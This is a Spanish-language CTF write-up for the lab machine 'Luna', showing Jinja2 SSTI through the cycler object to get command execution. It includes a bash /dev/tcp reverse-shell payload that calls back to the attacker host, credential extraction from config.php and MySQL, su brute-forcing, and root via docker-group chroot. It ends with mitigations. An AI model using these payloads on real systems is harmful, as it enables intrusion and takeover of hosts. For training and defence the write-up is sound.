## Información General

|**Campo**|**Detalle**|
|---|---|
|**Nombre de la máquina**|Luna|
|**Plataforma**|TheHackersLabs|
|**Dificultad**|Fácil/Media|
|**Sistema Operativo**|Linux (Ubuntu)|
|**Servicios expuestos**|HTTP (80), HTTP/Werkzeug (5000)|

## Resumen del Ataque

La máquina expone dos servicios web: Apache en el puerto 80 (devuelve 403 Forbidden) y una aplicación Flask/Werkzeug en el puerto 5000 bajo el nombre "RodGar". El formulario principal tiene un campo de texto deshabilitado (`disabled`) que se habilita manipulando el HTML desde el inspector del navegador. Al enviar el formulario se confirma una vulnerabilidad de Server-Side Template Injection (SSTI) en Jinja2, explotada mediante el objeto `cycler` para ejecutar comandos del sistema operativo y obtener una reverse shell como `www-data`. Enumerando el código fuente de la aplicación se localizan credenciales de una base de datos MySQL local, que contiene una contraseña cifrada en Base64 del usuario `juan`. Con esa contraseña se obtiene acceso como `juan`, donde se encuentra un `password.txt` con una lista de contraseñas candidatas y varios usuarios adicionales del sistema (`jose`, `john`, `carmen`). Utilizando `su-bruteforce` contra dicha lista se obtiene la contraseña del usuario `jose`, que pertenece al grupo `docker`. Esta pertenencia permite escalar privilegios a `root` montando el sistema de archivos del host dentro de un contenedor Alpine con `chroot`.

## Técnicas Usadas

- Reconocimiento de puertos y servicios con Nmap
- Manipulación de HTML/DOM desde el inspector del navegador para habilitar un campo deshabilitado
- Explotación de Server-Side Template Injection (SSTI) en Jinja2
- Bypass de restricciones de SSTI mediante el objeto `cycler` para ejecución de comandos (RCE)
- Obtención de reverse shell y estabilización de TTY
- Extracción de credenciales desde código fuente PHP expuesto (`config.php`)
- Acceso y enumeración de base de datos MySQL local
- Decodificación de contraseña en Base64
- Cambio de usuario (`su`) con credenciales obtenidas
- Ataque de fuerza bruta dirigido (`su-bruteforce`) contra una lista de contraseñas local
- Escalada de privilegios abusando de la pertenencia al grupo `docker` (montaje del filesystem del host vía contenedor)

## Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.192
```



Puertos detectados: `80/tcp` (http) y `5000/tcp` (upnp). 

**2. Escaneo de versiones y servicios**

```
nmap -p 80,5000 -sC -sV -oN allport 192.168.241.192
```



Se identifica Apache 2.4.58 en el puerto 80 (devuelve 403 Forbidden) y Werkzeug 3.0.3/Python 3.12.3 en el puerto 5000, con el título "RodGar". 

**3. Enumeración del servicio web en el puerto 5000**

```
http://192.168.241.192:5000/
```


La página presenta un formulario con un campo de texto (`name`) marcado como `disabled`, con un botón "Greet me" apuntando a `/greet` mediante POST.

**4. Bypass del campo deshabilitado** 

Desde el inspector del navegador se modifica el atributo `disabled` del input:

```
<input type="text" name="name" placeholder="Ingrese su nombre" enable="">
```

Se recarga la página y se envía un valor de prueba:




**5. Confirmación de SSTI (Server-Side Template Injection)**

Se prueba una expresión matemática típica de Jinja2:

```
{{7*7}}
```




La evaluación de `7*7` como `49` confirma que el input se procesa como plantilla Jinja2 sin sanitizar, es decir, SSTI.

**6. Explotación de SSTI para ejecución de comandos**

Se abusa del objeto `cycler` (accesible por defecto en el entorno de Jinja2 de Flask) para alcanzar `os.popen` y ejecutar comandos del sistema:

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```





Se envía el payload de reverse shell a través del mismo vector SSTI:

```
{{ cycler.__init__.__globals__.os.popen('bash -c \"bash -i >& /dev/tcp/192.168.241.128/1234 0>&1\"').read() }}
```



**7. Obtención de Reverse Shell**

```
nc -lvnp 1234
```



Estabilización de la TTY:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@TheHackersLabs-Luna:~/RODGAR$ whoami
```



**8. Enumeración post-explotación: credenciales de base de datos**

```
www-data@TheHackersLabs-Luna:~/RODGAR$ cat config.php 
```



**9. Identificación de servicios locales**

```
www-data@TheHackersLabs-Luna:~/RODGAR$ ss -tulpn
```



Se confirma MySQL escuchando en `127.0.0.1:3306`, accesible localmente con las credenciales extraídas.

**10. Acceso a la base de datos MySQL**

```
www-data@TheHackersLabs-Luna:~/RODGAR$ mysql -u admin -p
```

```
mysql> show databases;
```



```
mysql> use rodgar;
```

```
mysql> show tables;
```



```
mysql> select * from user;
```



**11. Decodificación de la contraseña**

```
echo "YzBvW1VrbU0yTVRSVGU4QGpOLk0oOWIK" | base64 -d
```



**12. Cambio a usuario juan**

```
www-data@TheHackersLabs-Luna:~/RODGAR$ su juan
```

```
juan@TheHackersLabs-Luna:/var/www/RODGAR$ whoami
```



**13. Enumeración en el home de juan**

```
juan@TheHackersLabs-Luna:/var/www/RODGAR$ cd /home/juan
juan@TheHackersLabs-Luna:~$ ls
```



Lista de contraseñas candidatas

```
juan@TheHackersLabs-Luna:~$ cat password.txt 
```



```
juan@TheHackersLabs-Luna:~$ cat user.txt 
```



**15. Enumeración de usuarios del sistema**

```
juan@TheHackersLabs-Luna:~$ grep bash /etc/passwd
```



**16. Fuerza bruta dirigida con su-bruteforce**

Se sube la herramienta `su-bruteforce`:

```
https://github.com/carlospolop/su-bruteforce
```

```
juan@TheHackersLabs-Luna:~$ ls
```



```
juan@TheHackersLabs-Luna:~$ chmod +x suBF.sh
```

```
juan@TheHackersLabs-Luna:~$ ./suBF.sh -u jose -w password.txt
```



**17. Acceso como jose**

```
juan@TheHackersLabs-Luna:~$ su jose
```

```
jose@TheHackersLabs-Luna:/home/juan$ whoami
```



**18. Enumeración para escalada de privilegios**

```
jose@TheHackersLabs-Luna:/home/juan$ id
```



La pertenencia al grupo `docker` permite escalar privilegios montando el sistema de archivos raíz del host dentro de un contenedor con permisos elevados.

**19. Escalada de privilegios vía Docker**

```
jose@TheHackersLabs-Luna:/home/juan$ docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash
```

```
root@f22e1fdacf68:/# whoami
```



**20. Flag de root**

```
root@f22e1fdacf68:/# cd /root
root@f22e1fdacf68:~# cat root.txt 
```



### Lecciones Aprendidas

- **Controles de seguridad en el cliente sin equivalente en el servidor:** Deshabilitar un campo de formulario (`disabled`) mediante HTML no impide que la ruta backend (`/greet`) siga siendo accesible y procese la petición; el atributo se manipula trivialmente desde el inspector del navegador.
- **Server-Side Template Injection (SSTI) sin sanitización:** Insertar directamente el input del usuario en una plantilla Jinja2 sin escaparlo permite la evaluación de expresiones arbitrarias, escalando desde una simple operación matemática hasta ejecución remota de comandos (RCE).
- **Objetos globales accesibles en el entorno de plantillas:** Objetos como `cycler`, presentes por defecto en el contexto de Jinja2/Flask, exponen rutas hacia `__globals__` y módulos como `os`, permitiendo eludir filtros básicos de SSTI que solo bloquean palabras clave obvias (`__import__`, `os.system`, etc.).
- **Credenciales en texto claro en código fuente:** Archivos de configuración (`config.php`) con usuario y contraseña de base de datos en texto plano, accesibles desde una shell con privilegios mínimos, facilitan el movimiento lateral.
- **Cifrado débil o inexistente para credenciales almacenadas:** Almacenar contraseñas en Base64 (que no es cifrado, sino codificación) en una base de datos no ofrece ninguna protección real ante un atacante con acceso de lectura.
- **Reutilización y listas de contraseñas expuestas:** Un archivo `password.txt` con una lista de contraseñas candidatas en el home de un usuario facilita ataques de fuerza bruta dirigidos contra otras cuentas del sistema.
- **Pertenencia innecesaria al grupo docker:** Igual que con `lxd`, pertenecer al grupo `docker` equivale a tener privilegios de root, ya que permite montar el filesystem del host dentro de un contenedor y acceder a él sin restricciones.

### Medidas de Mitigación

1. **Validación de Entradas en el Servidor:**

- Nunca confiar en atributos HTML (`disabled`, `readonly`) como control de seguridad; toda validación debe reforzarse en el backend.
- Nunca renderizar directamente input de usuario dentro de plantillas Jinja2; usar `render_template()` con variables en vez de construir el template dinámicamente con el input.
- Emplear un entorno de sandboxing (`jinja2.sandbox.SandboxedEnvironment`) si es imprescindible renderizar contenido dinámico.

2. **Protección contra SSTI:**

- Aplicar listas blancas y escapado estricto sobre cualquier dato que pueda llegar a una plantilla.
- Mantener actualizado el framework y revisar CVEs conocidos de bypass de sandboxing en Jinja2.
- Realizar revisiones de código enfocadas en la detección de renderizado dinámico de templates con datos de usuario.

3. **Gestión de Credenciales:**

- No almacenar credenciales en texto plano ni en Base64 dentro de archivos de configuración o bases de datos; usar hashing seguro (bcrypt, Argon2) para contraseñas y gestores de secretos para credenciales de servicio.
- Restringir permisos de lectura sobre archivos de configuración (`config.php`) al usuario del servicio web únicamente.
- Evitar dejar listas de contraseñas o notas con credenciales en los home de los usuarios.

4. **Gestión de Grupos y Privilegios del Sistema:**

- Evitar añadir usuarios estándar al grupo `docker` (o `lxd`) salvo estricta necesidad, dado que equivale a otorgar privilegios de administrador.
- Auditar periódicamente la pertenencia de los usuarios a grupos privilegiados del sistema.
- Aplicar el principio de menor privilegio en la asignación de roles y grupos.
